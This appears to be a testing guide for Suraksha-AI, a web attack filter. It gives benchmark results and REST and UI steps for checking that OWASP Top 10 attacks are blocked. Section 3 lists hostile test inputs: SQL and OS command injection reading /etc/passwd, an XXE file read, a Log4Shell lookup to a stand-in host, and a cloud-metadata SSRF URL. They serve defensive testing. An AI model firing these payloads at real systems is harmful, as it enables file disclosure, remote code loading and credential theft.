

# Suraksha-AI Web Defense Framework
## Vulnerability Verification & Defense Mechanism Testing Report

> [!NOTE]
> This guide outlines the official validation methodologies for evaluating the **Suraksha-AI** multi-threat defense grid. It provides instructions for running automated test suites, testing through the REST API, validating in the web console, and verifying detection across all OWASP Top 10 (2021) categories.

---

## 1. Testing Framework Architecture

Suraksha-AI provides three distinct interfaces to test and benchmark its defense mechanisms:



---

## 2. Automated Test Suite Execution (97-Vector Benchmark)

Suraksha-AI includes an automated test runner evaluating **97 test vectors** spanning all 10 OWASP categories, validating both positive attack blocking and negative clean-traffic forwarding.

### Running the Suite via Terminal
Run the test runner from the project root:

```powershell
python test_owasp_top10_suite.py
```

### Benchmark Validation Results
The framework achieves a **100.0% validation pass rate** across all categories:

| OWASP Category | Target Vector Coverage | Samples Tested | Block / Pass Rate |
| :--- | :--- | :---: | :---: |
| **A01:2021 – Broken Access Control** | IDOR, Privilege Escalation, Path Override | 13 | **100.0% (13/13)** |
| **A02:2021 – Cryptographic Failures** | Cleartext HTTP Creds, Weak Cipher Downgrade | 8 | **100.0% (8/8)** |
| **A03:2021 – Injection** | SQLi, OS Command, XXE, NoSQL, LDAP, SSTI | 28 | **100.0% (28/28)** |
| **A04:2021 – Insecure Design** | Negative Qty Tampering, Unlimited OTP Abuse | 8 | **100.0% (8/8)** |
| **A05:2021 – Security Misconfiguration** | `.env` Probes, Debug Actuators, Default Creds | 9 | **100.0% (9/9)** |
| **A06:2021 – Outdated Components** | Log4Shell (JNDI), Apache Struts (OGNL) | 6 | **100.0% (6/6)** |
| **A07:2021 – Auth Failures** | Credential Stuffing, Session Fixation | 7 | **100.0% (7/7)** |
| **A08:2021 – Data Integrity Failures** | Java Deserialization, Unsigned JWT (`alg:none`) | 6 | **100.0% (6/6)** |
| **A09:2021 – Logging & Monitoring** | CRLF Log Forging, Scanner Signatures (sqlmap) | 5 | **100.0% (5/5)** |
| **A10:2021 – SSRF** | AWS/GCP Metadata (`169.254.169.254`), Localhost | 7 | **100.0% (7/7)** |
| **Total Benchmark** | **Full OWASP Top 10 (2021) Matrix** | **97** | **100.0% (97/97)** |

---

## 3. How to Test Each Vulnerability Category

Use the following parameters to verify defense mechanisms across each vector via REST API or the UI console.

### A01: Broken Access Control
* **Validation Objective**: Verify that unauthorized parameter manipulation or object browsing is denied.
* **Test Input**: 
  * URL Path: `/api/users/1245/invoice`
  * Or Parameter: `is_admin=true&role=admin&user_id=1`
* **Expected Defense Behavior**:
  * Intercepting Agent: `Auth & Access Guardian Agent`
  * Shield Type: `Identity & Scope Authorization Firewall`
  * Disposition: **BLOCKED (Risk Score ~88.0, HTTP 403)**

### A02: Cryptographic Failures
* **Validation Objective**: Verify detection of sensitive credentials exposed in unencrypted channels or weak cipher parameters.
* **Test Input**:
  * URL: `http://suraksha.local/login?password=P@ssw0rd123`
  * Or Body: `cipher=DES&key_length=56`
* **Expected Defense Behavior**:
  * Intercepting Agent: `CryptoGuard & Data Privacy Agent`
  * Shield Type: `Cryptographic Assurance & Data Masking Shield`
  * Disposition: **BLOCKED (Risk Score ~99.8, HTTP 403)**

### A03: Injection (SQLi, OS Command, XXE)
* **Validation Objective**: Verify AST tokenization and syntax parsing against relational and process injection.
* **Test Input**:
  * SQLi Body: `' OR '1'='1' --`
  * OS Command Body: `127.0.0.1; cat /etc/passwd`
  * XXE Body: `<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]><foo>&xxe;</foo>`
* **Expected Defense Behavior**:
  * Intercepting Agent: `Deep Injection Sentinel Agent` (or `SQLi Deep Sentinel`)
  * Shield Type: `Multi-Syntax Injection & Payload Barrier`
  * Disposition: **BLOCKED (Risk Score 99.8–100.0, HTTP 403)**

### A04: Insecure Design
* **Validation Objective**: Verify business logic bounds checking against numeric tampering and OTP abuse.
* **Test Input**:
  * Body: `quantity=-5&price=0.01`
  * Query Parameter: `otp_attempts=unlimited&coupon=SAVE100&apply_count=999`
* **Expected Defense Behavior**:
  * Intercepting Agent: `Business Logic Armor Agent`
  * Shield Type: `State Machine & Business Constraint Sentinel`
  * Disposition: **BLOCKED (Risk Score ~90.0, HTTP 403)**

### A05: Security Misconfiguration
* **Validation Objective**: Verify server surface protection against configuration exposure and debugging probes.
* **Test Input**:
  * URL Path: `/.env`
  * Or URL Path: `/.git/config`
  * Or URL Path: `/actuator/health?debug=true&trace=1`
* **Expected Defense Behavior**:
  * Intercepting Agent: `Hardening & Surface Shield Agent`
  * Shield Type: `Environment & Server Hardening Perimeter`
  * Disposition: **BLOCKED (Risk Score ~95.0, HTTP 403)**

### A06: Vulnerable and Outdated Components
* **Validation Objective**: Verify virtual patching against known remote code execution signatures.
* **Test Input**:
  * Header / Body: `${jndi:ldap://evil.io/a}` (Log4Shell)
  * Header: `Content-Type: ${struts.valueStack}` (OGNL RCE)
* **Expected Defense Behavior**:
  * Intercepting Agent: `Supply Chain & Component Sentry`
  * Shield Type: `Virtual Patching & Dependency Shield`
  * Disposition: **BLOCKED (Risk Score 100.0, HTTP 403)**

### A07: Identification and Authentication Failures
* **Validation Objective**: Verify credential-stuffing prevention and session fixation defense.
* **Test Input**:
  * Body: `admin:123456`
  * Cookie / Header: `JSESSIONID=FIXEDSESSION123` (pre-login injection)
* **Expected Defense Behavior**:
  * Intercepting Agent: `Identity Assurance & BruteForce Sentinel`
  * Shield Type: `Adaptive Identity & Authentication Armor`
  * Disposition: **BLOCKED (Risk Score ~90.0, HTTP 403)**

### A08: Software and Data Integrity Failures
* **Validation Objective**: Verify quarantine of untrusted object serialization and unsigned security tokens.
* **Test Input**:
  * Body: `rO0ABXNyABFqYXZhLnV0aWwuSGFzaE1hcA==` (Java serialized object)
  * Header: `Authorization: Bearer {"alg":"none","typ":"JWT"}...`
* **Expected Defense Behavior**:
  * Intercepting Agent: `Software & Data Integrity Guardian`
  * Shield Type: `Integrity Verification & Deserialization Quarantine`
  * Disposition: **BLOCKED (Risk Score ~98.0, HTTP 403)**

### A09: Security Logging and Monitoring Failures
* **Validation Objective**: Verify log stream sanitization against CRLF injection and automated scanner detection.
* **Test Input**:
  * Body: `username=admin%0aINFO: Login successful for admin`
  * Header: `User-Agent: sqlmap/1.7.11#stable (http://sqlmap.org)`
* **Expected Defense Behavior**:
  * Intercepting Agent: `Audit & Telemetry Sentry Agent`
  * Shield Type: `Audit Stream Integrity & Telemetry Shield`
  * Disposition: **BLOCKED (Risk Score ~92.0–95.0, HTTP 403)**

### A10: Server-Side Request Forgery (SSRF)
* **Validation Objective**: Verify egress filtering against cloud metadata harvesting and internal port scanning.
* **Test Input**:
  * URL Parameter: `url=http://169.254.169.254/latest/meta-data/`
  * Or URL Parameter: `url=http://127.0.0.1:6379/`
* **Expected Defense Behavior**:
  * Intercepting Agent: `SSRF Egress Firewall Agent`
  * Shield Type: `Network Egress Gateway & Protocol Shield`
  * Disposition: **BLOCKED (Risk Score 100.0, HTTP 403)**

### Baseline Control Test (Legitimate Traffic)
* **Validation Objective**: Verify that clean, benign requests are not blocked (zero false positives).
* **Test Input**:
  * Clean Form: `john.doe@example.com`
  * Clean URL: `https://suraksha.local/login`
* **Expected Defense Behavior**:
  * Verdict: **CLEAN (Risk Score: 0.0, Blocked: False, HTTP 200 OK)**

---

## 4. Testing via REST API (cURL / Python)

You can programmatically evaluate payloads against Suraksha-AI using the backend API.

### 4.1. Single Payload Endpoint
Send an inspection request to `/api/multi-threat/scan-payload`:

```bash
curl -X POST http://localhost:5000/api/multi-threat/scan-payload \
  -H "Content-Type: application/json" \
  -d '{"payload": "\x27 OR 1=1 --"}'
```

**Sample JSON Response:**
```json
{
  "attack_category": "Injection",
  "blocked": true,
  "defense_action": "AST Query Tokenization, Parameterized Binding & WAF Filter",
  "defense_agent": "SQLi Deep Sentinel Agent",
  "owasp_id": "A03:2021",
  "risk_score": 100.0,
  "severity": "Critical",
  "shield_type": "Database Relational Query Interceptor"
}
```

### 4.2. Full Request Context Endpoint
Send a composite HTTP request structure to `/api/multi-threat/scan`:

```bash
curl -X POST http://localhost:5000/api/multi-threat/scan \
  -H "Content-Type: application/json" \
  -d '{
    "url": "http://target.local/api/transfer",
    "method": "POST",
    "headers": {"User-Agent": "Mozilla/5.0"},
    "parameters": {"url": "http://169.254.169.254/latest/meta-data/"},
    "body": ""
  }'
```

---

## 5. Testing via Frontend UI

1. Open your browser and navigate to:
   ```
   http://localhost:5173/multi-threat
   ```
2. In the **Scanner Configuration** card on the left:
   * Select **Single Payload** to test an individual string or parameter.
   * Select **Full Request** to configure method, headers, parameters, and cookies.
3. Paste any of the test strings from Section 3 into the inspection console.
4. Click **Run Multi-Threat Agent Scan**.
5. Observe the **Threat Analysis & Agent Telemetry** panel on the right:
   * **Hero Interception Banner**: Displays threat class, OWASP identifier, severity, and `BLOCKED & NEUTRALIZED (403)` status.
   * **Telemetry Grid**: Displays the Defense Action, Shield Architecture, and Gateway Disposition.
   * **Pipeline Path**: Trace flow from Inbound Probe $\rightarrow$ Active Agent $\rightarrow$ Final Action.
   * **Risk Score Meter**: Visual calculation on a 0–100 scale.
   * **Signature Matches**: Specific pattern weights and regex matches.
